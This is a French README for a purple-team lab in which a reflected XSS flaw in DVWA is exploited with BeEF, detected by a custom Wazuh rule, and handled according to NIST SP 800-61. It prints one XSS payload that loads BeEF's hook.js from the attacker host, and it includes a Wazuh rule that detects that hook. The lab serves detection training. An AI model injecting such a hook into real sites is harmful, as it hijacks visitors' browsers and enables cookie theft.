

# Incident Response Lab - DVWA + BeEF + Wazuh


> Laboratoire Purple Team simulant une attaque Cross-Site Scripting (XSS) exploitée via BeEF, détectée et investiguée avec Wazuh SIEM, puis documentée selon le framework NIST SP 800-61.

---

## Table des matières

- [Objectif](#objectif)
- [Architecture](#architecture)
- [Stack Technique](#stack-technique)
- [Scénario d'Attaque](#scénario-dattaque)
- [Détection et Réponse](#détection-et-réponse)
- [Résultats Clés](#résultats-clés)
- [Compétences Démontrées](#compétences-démontrées)
- [Structure du Projet](#structure-du-projet)
- [Auteur](#auteur)

---

## Objectif

Ce projet a pour but de démontrer la chaîne complète d'un incident de cybersécurité dans un environnement isolé et légal :

```
+--------------+    +--------------+    +--------------+
|   ATTAQUE    |--->|  DÉTECTION   |--->|   RÉPONSE    |
|  (Red Team)  |    | (Blue Team)  |    | (Incident    |
|              |    |              |    |  Response)   |
+--------------+    +--------------+    +--------------+
     Kali                Wazuh              Analyste
   + BeEF                 SIEM                 SOC
```

L'objectif est de reproduire fidèlement le travail quotidien d'un analyste SOC :
1. Simuler une attaque réaliste (XSS + BeEF)
2. Détecter l'attaque avec un SIEM (Wazuh)
3. Répondre à l'incident (confinement, éradication, récupération)
4. Documenter selon les standards professionnels (NIST SP 800-61)

---

## Architecture

Le laboratoire repose sur 3 machines virtuelles interconnectées via un réseau Host-Only isolé (192.168.56.0/24).

| Machine | Rôle | OS | IP Host-Only |
|---------|------|----|----|
| Kali | Attaquant (BeEF) | Kali Linux | `192.168.56.10` |
| Debian-1 | Victime (DVWA) | Debian 12 | `192.168.56.20` |
| Wazuh | SIEM | Amazon Linux 2023 | `192.168.56.30` |



---

## Stack Technique

| Catégorie | Outils |
|---|---|
| Virtualisation | VirtualBox 7.x |
| Conteneurisation | Docker |
| Application vulnérable | DVWA (Damn Vulnerable Web Application) |
| Framework d'exploitation | BeEF (Browser Exploitation Framework) |
| SIEM | Wazuh 4.14.8 (Manager + Indexer + Dashboard) |
| Systèmes d'exploitation | Kali Linux, Debian 12, Amazon Linux 2023 |
| Analyse réseau | Wireshark, tcpdump |

---

## Scénario d'Attaque

### Étape 1 - Reconnaissance
L'attaquant (Kali) identifie une faille XSS Reflected dans le module vulnérable de DVWA.

### Étape 2 - Weaponisation
Il prépare un hook BeEF :

```html
<script src="http://192.168.56.10:3000/hook.js"></script>
```

### Étape 3 - Exploitation
Le payload est injecté dans le champ vulnérable. Le serveur renvoie HTTP 200 OK.

### Étape 4 - Post-Exploitation
Le navigateur de la victime est hooké par BeEF. L'attaquant peut exécuter des modules à distance (vol de cookies, phishing, scan réseau).

### Étape 5 - Détection
Wazuh détecte l'attaque via une règle personnalisée et déclenche une alerte de niveau 12.

### Étape 6 - Réponse
L'analyste SOC confine, éradique et restaure le service.

---

## Détection et Réponse

### Règle Wazuh personnalisée

Une règle sur mesure a été développée pour détecter spécifiquement le hook BeEF :

```xml
<rule id="100100" level="12">
  <if_sid>31100</if_sid>
  <url>hook.js</url>
  <description>Possible BeEF hook injection detected - Browser Session Hijacking</description>
  <mitre><id>T1185</id></mitre>
</rule>
```

### Cycle de réponse (NIST SP 800-61)

| Phase | Action |
|---|---|
| Detection et Analysis | Alerte niveau 12, triage confirmé (vrai positif) |
| Containment | Blocage de l'IP attaquante via iptables |
| Eradication | Correction de la faille XSS (DVWA en mode "Impossible") |
| Recovery | Restauration du service, surveillance renforcée |
| Post-Incident | Rapport NIST + recommandations |

[Rapport d'incident complet](docs/05-incident-report.md)

---

## Résultats Clés

| Métrique | Valeur |
|---|---|
| Détection | 3 secondes après l'attaque |
| Confinement | 3 minutes après détection |
| Sévérité | CRITIQUE (niveau 12) |
| MITRE ATT&CK | T1185, T1059.007 |
| Machines impactées | 1 (isolement réussi) |
| Rapport d'incident | Format NIST SP 800-61 |

---

## Compétences Démontrées

Ce projet met en œuvre les compétences suivantes, directement applicables en environnement professionnel :

| Domaine | Compétences |
|---|---|
| Offensive (Red Team) | XSS exploitation, BeEF, post-exploitation navigateur |
| Défensive (Blue Team) | Déploiement SIEM, ingénierie de détection, rédaction de règles |
| Incident Response | Triage, confinement, éradication, récupération (NIST) |
| Réseau | Configuration multi-OS, IP statiques, iptables |
| Systèmes | Docker, SSH, Linux (Debian, Kali, Amazon Linux) |
| Analyse | Logs Apache, JSON, mapping MITRE ATT&CK |

---

## Structure du Projet

```
incident-response-lab/
├── README.md
├── docs/                          # Documentation technique
│   ├── 01-architecture.md         # Architecture du laboratoire
│   ├── 02-setup.md                # Guide d'installation
│   ├── 03-attack-scenario.md      # Scénario d'attaque détaillé
│   ├── 04-detection.md            # Ingénierie de détection
│   └── 05-incident-report.md      # Rapport NIST SP 800-61
├── detection-rules/               # Règles de détection
│   └── local_rules.xml            # Règle Wazuh personnalisée
└── screenshots/                   # Captures d'écran par phase
    ├── 01-infrastructure/
    ├── 02-config-reseau/
    ├── 03-dvwa/
    ├── 04-beef/
    ├── 05-wazuh/
    └── 07-incident-response/
```

### Documentation

| Document | Description |
|---|---|
| [Architecture](docs/01-architecture.md) | Topologie réseau et composants |
| [Setup](docs/02-setup.md) | Guide de reproduction complet |
| [Scénario d'attaque](docs/03-attack-scenario.md) | Chaîne d'attaque détaillée |
| [Détection](docs/04-detection.md) | Règle Wazuh et ingénierie |
| [Rapport d'incident](docs/05-incident-report.md) | NIST SP 800-61 |

---

## Reproduction

Pour reproduire ce laboratoire, consultez le [guide d'installation complet](docs/02-setup.md).

Prérequis :
- VirtualBox 7.x
- 16 Go de RAM (recommandé)
- 100 Go d'espace disque
- Les 3 ISO : Kali Linux, Debian 12, Wazuh OVA

---

## Auteur

**Abdelhamid Rayene Allagui**

[](https://github.com/abdelhamidrayeneallagui-jpg)
